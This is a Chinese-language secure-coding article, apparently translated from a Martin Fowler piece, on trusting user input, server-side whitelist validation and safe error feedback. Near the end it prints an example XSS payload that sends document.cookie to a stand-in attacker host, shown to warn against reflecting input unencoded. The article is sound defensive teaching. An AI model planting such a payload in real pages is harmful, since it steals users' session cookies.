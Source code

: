 # 编码与校验

# Trust( 信赖 )

首先，在讨论具体的输入输出之前，我们需要来强调下自认为安全中最重要也是最根本的原则：Trust 。作为一个开发者，也需要不断地问自己，我们相信来自于用户浏览器的请求吗？我们相信上游系统正常工作来保证了我们数据的干净与安全吗？我们相信服务器与浏览器之间的信道就不会被监听或者伪造吗？我们相信我们系统本身依赖的服务或者数据存储吗？呵呵，都不可信。当然，就像安全一样，Trust 也不是一个双选题，非黑即白。我们需要明白系统的风险忍受力与数据的安全边界。为了能够正确的、基于某个统一规则的预估，我们需要审视威胁与风险，这个评估方法与标准会在另一篇文章中讲解。

# Reject Unexpected Form Input( 拒绝未知的表单输入 )

HTML 表单本身就可能带来些好像很安全的错觉，表单的构建者肯定觉得他们限制了输入类型、做了数据校验，这样整个表单输入就是安全的。但确信无疑的是，这只是个错觉，尽管客户端地 JavaScript 脚本可以从安全地角度来说提供完整的校验。

## Untrusted Input

无论我们是否在客户端提供了表单验证或者是否使用了 HTTPs 连接，我们能够信赖来自用户浏览器的连接的比例都是 0。用户可以轻易地在发送之前修改标记，或者使用类似于 curl 这样的命令行来提交没有经过校验的数据。乃至于一个不明所以的用户可能在一个怀有恶意的网站莫名其妙地添了些内容。浏览器的同源策略并不能够避免来自于恶意站点的提交。为了保证输入数据的完整性，服务器端务必要进行数据校验。不过估计有人有疑问了，为啥说这个畸形的数据就会导致安全问题呢？这往往取决于你的应用业务逻辑与输出的编码，为了避免不可预知的行为、数据泄露与潜在攻击，需要在输入的数据与可执行代码之间架构一个过滤层。譬如，我们的表单里有一个选择的按钮来允许用户选择合适的通信类型，我们的业务逻辑代码可能是这样的：

```java
final String communicationType = req.getParameter("communicationType");
if ("email".equals(communicationType)) {
    sendByEmail();
} else if ("text".equals(communicationType)) {
    sendByText();
} else {
    sendError(resp, format("Can't send by type %s", communicationType));
}
```

上面代码危不危险取决于`sendError`这个方法是怎么定义的，而我们肯定无法确定下游的代码就一定是安全的。最好的选择就是我们在控制流中移除这个危险，而使用的方法就是输入验证。

## Input Validation

输入验证即是保证实际输入与应用预期的输入的一致性。超出预期的输入数据会导致我们系统抛出未知的结果，譬如逻辑崩坏、触发错误乃至于允许攻击者控制系统的一部分。其中像数据库查询这样的能够在服务端作为可执行代码的输入与 JavaScript 这样在客户端能够被执行的代码更是特别的危险。因此验证输入时保证系统安全性与防卫危险的第一道防线。开发者们在构建应用系统的过程中会进行一些基本的验证，譬如判断值是否为空或者是否为正数。而从安全的角度考虑，我们需要将输入限定到系统允许的最小集合中，譬如数值型值可以被限定在某个特定的范围内。譬如，系统不会允许用户将一个负值添加到购物车中。这种限制性的验证手段就是所谓的**positive validation**或者**whitelisting**。一个白名单可以用于限定某个具体的 URL 或者`yyyy/mm/dd`这样的时间日期。它可以限制输入的长度、单个字符的编码规范或者上面例子中的只有给定值可以被接受。另外一种考虑输入验证的思维角度就是把它当做服务端与消费者之间签订的一种协议，任何违背了这个协议的请求都是无效的并且被拒绝。你的这个协议越严格，你的系统在未知情况下遭受的风险就会越小。而当对于某个输入验证失败之后，开发者也要好好考虑应该如何反馈。最严格，也是最有争议的办法就是全部拒绝，并且没有任何反馈，不过要注意将这个事情通过日志或者监控记录下来。不过为啥一点反馈都没有呢？我们需要提供给用户哪些信息是无效的吗？这一点还是要取决于你的约定。在上面的例子中，如果你接收到了除了`email`或者`text`之外的内容，那你有可能被攻击了。不过如果你进行了反馈，可能正中全套。譬如如果开发者直接返回：俺们并不认识你传入的 communicationType，可能这个还无伤大雅，但是如果是这样的呢：

```
<script>new Image().src = ‘http://evil.martinfowler.com/steal?' + document.cookie</script>
```

这种情况下你就会面临一个用来盗取你的 Cookies 的 XSS 攻击代码，如果你一定要给用户反馈，你必须保证不会把不受信任的用户内容直接返回，而应该使用固定的提示信息。如果你不可避免地要把用户的输入反馈回去，你要保证它是被编码的。
